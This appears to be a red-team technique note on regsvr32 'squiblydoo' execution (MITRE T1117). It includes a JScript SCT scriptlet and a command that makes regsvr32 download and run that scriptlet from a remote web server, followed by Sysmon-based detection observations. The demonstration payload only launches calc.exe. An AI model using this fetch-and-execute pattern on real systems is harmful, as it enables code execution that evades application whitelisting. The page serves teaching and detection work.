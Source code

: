 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Execution

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We need to host the back.sct somehwere on a web server and then we can then execute the above code from the command prompt:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, an evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline parameters will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1117" %}

